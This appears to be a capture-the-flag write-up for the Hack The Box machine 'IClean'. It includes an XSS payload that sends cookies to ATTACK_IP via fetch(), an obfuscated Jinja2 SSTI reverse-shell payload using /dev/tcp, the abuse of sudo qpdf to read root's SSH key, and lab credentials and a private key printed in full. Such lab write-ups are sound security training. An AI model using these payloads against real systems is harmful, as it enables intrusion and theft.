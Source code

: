 ```yaml
---
layout: post
section-type: post
has-comments: true
title: Hack The Box - IClean
category: tech
tags: ["tutorial"]
---
```


### Reconnaissance and Initial Steps

#### Nmap

```
sudo nmap -Pn -A 10.10.11.12
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/77342afa-8fe8-4c2c-9e4d-d5107846e910)

```
echo "10.10.11.12 iclean.htb" | sudo tee -a /etc/hosts
```
when i navigate to `http://iclean.htb` it redirect to `http://capiclean.htb` so I added that to `/etc/hosts` and access

```
echo "10.10.11.12 capiclean.htb" | sudo tee -a /etc/hosts
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/047ffcfd-bf87-4ddc-b88d-9d0c742ab331)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/ef48bed0-5028-4144-a7a2-bf985d38a111)

```
wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u "http://capiclean.htb/FUZZ" --hc 404 --hl 348
```
I found a `quote` directory, let's have a look.

I fired up burp suite and capture the requests and tested various input vectors and payloads. and I identified a potential vulnerability that could be exploited further.

first I started python3 http server 
```
python3 -m http.server 1234
```

then put the below payload in the service paratmeter and encoded the payload string by using `Ctrl+U` and send the request.

```
<img src=x onerror=fetch("http://ATTACK_IP:1234/"+document.cookie);>
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/6713ecac-e68e-4f05-b771-cd4c83612b94)

Then after sometime I get the `Cookie`. Yooo!

let's store this cookie using cookie-editor and access the `/dashboard`.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/7b829ff5-2097-45ae-88dc-f431514979e4)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/2e959db4-2fbc-4a8f-801b-dd8c34a2876c)

Visit http://capiclean.htb/InvoiceGenerator to generate an ID and fill it in casually. The ID generated here is # 3873147880

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/8d38560a-d949-4cc1-95bd-730a1671daba)

Then visit http://capiclean.htb/QRGenerator, fill in the above ID, and a QR code image link will be generated.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/b462ddd3-9e3d-41a1-9711-92ebc09d9288)

and let's use Burpsuite to captures request.

#### Web Exploitation :

During all this Request you will get a POST Request on `/QRGenerator` which is likely Vulnerable to **SSTI** because as it is a **Flask Application it is running Jinja Template in Background**.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/8b714199-da5d-49ab-b4d1-13ae6e64c03a)

To test it I put Basic Payload in qr_link Parameter → `{{7*7}}` and Boom I get `49` in Response

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/86b4b571-b89e-4940-9b9f-d8549a4315ff)

I attempted to exploit further to achieve Remote Code Execution (RCE). However, I discovered that the typical Jinja2 Server-Side Template Injection (SSTI) payload was ineffective. then i found this article and it help to find a bypass payload.

https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/

```
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("bash -c '/bin/bash -i >& /dev/tcp/ATTACK_IP/4444 0>&1'")|attr("read")()}}
```

so first thing i started a netcat listener

```
nc -nlvp 4444
```
then put the payload in the qr_link parameter and use `Ctrl+u` encode it and then send the request.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/13c1e2cc-265a-4a34-9588-9692fec8e15f)

We able to obtain a shell as www-data.


### User Flag

After traversing directories and examining files, I identified the `app.py` file, which inadvertently exposes the MySQL database credentials. Leveraging this discovery, I successfully gained access to the database.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/c7bbb004-0e8b-4ac9-9558-e6a8d1ceb5d0)

```
db_config = {
    'host': '127.0.0.1',
    'user': 'iclean',
    'password': 'pxCsmnGLckUb',
    'database': 'capiclean'
}
```

before accessing mysql let's harden the shell

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl+Z
stty raw -echo; fg
```
now let's access the mysql:

```
mysql -h 127.0.0.1 -u iclean -p capiclean
```

```
show tables;
select * from users;
```

Enter the password that we found.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/da5a1618-e423-4c3e-91c1-9cbf37110c08)

Let's use `Cracksation` to crack the hashes. https://crackstation.net/

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/d8da72e6-e58f-44e1-bd47-b9c23fa58549)

so let's use this credential to login as user `consuela`

```
su consuela
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/ecdbe8bd-d166-41b3-bb32-f0b1428a5942)

### Root Flag

```
sudo -l
```
![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/01d97bbc-4987-48f6-bc9d-a0f222a26f90)

So I can ran `qpdf` Command. So after searching in Google I found this documentation.
https://qpdf.readthedocs.io/en/stable/cli.html

First, utilize the `-empty` parameter to create an empty document. Next, employ the `-qdf` parameter to generate a PDF file in QDF mode. Then, utilize the `-add-attachment` parameter to append a file as an attachment to the PDF. This time, employ the root's `id_rsa`, and name the generated file `id_rsa.pdf`.

let's run this command:

```
sudo /usr/bin/qpdf --empty --qdf --add-attachment /root/.ssh/id_rsa -- id_rsa.pdf
```
and it generated `id_rsa.pdf` let's `cat` that.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/e34d765e-ea11-4276-a868-bf023d9a2aac)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/0512c977-3190-4e40-b063-e429a0b3953a)

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAaAAAABNlY2RzYS
1zaGEyLW5pc3RwMjU2AAAACG5pc3RwMjU2AAAAQQQMb6Wn/o1SBLJUpiVfUaxWHAE64hBN
vX1ZjgJ9wc9nfjEqFS+jAtTyEljTqB+DjJLtRfP4N40SdoZ9yvekRQDRAAAAqGOKt0ljir
dJAAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAxvpaf+jVIEslSm
JV9RrFYcATriEE29fVmOAn3Bz2d+MSoVL6MC1PISWNOoH4OMku1F8/g3jRJ2hn3K96RFAN
EAAAAgK2QvEb+leR18iSesuyvCZCW1mI+YDL7sqwb+XMiIE/4AAAALcm9vdEBpY2xlYW4B
AgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

let's creat the `id_rsa` file and granting the required privileges with `chmod 600 id_rsa`, I used SSH with the `-i` option to specify the private key and connect to the server

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/ff52607b-1b6d-432c-8d52-1cec082c979e)


